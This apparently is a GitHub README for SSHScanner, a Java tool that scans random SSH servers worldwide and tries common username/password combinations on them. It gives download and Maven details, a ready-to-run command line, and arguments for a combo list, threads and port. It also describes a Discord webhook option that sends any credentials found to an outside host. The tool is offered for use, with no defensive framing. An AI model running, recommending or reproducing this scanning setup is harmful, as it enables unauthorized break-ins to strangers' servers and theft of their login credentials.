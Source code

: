 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Run the program with **java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true

## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)




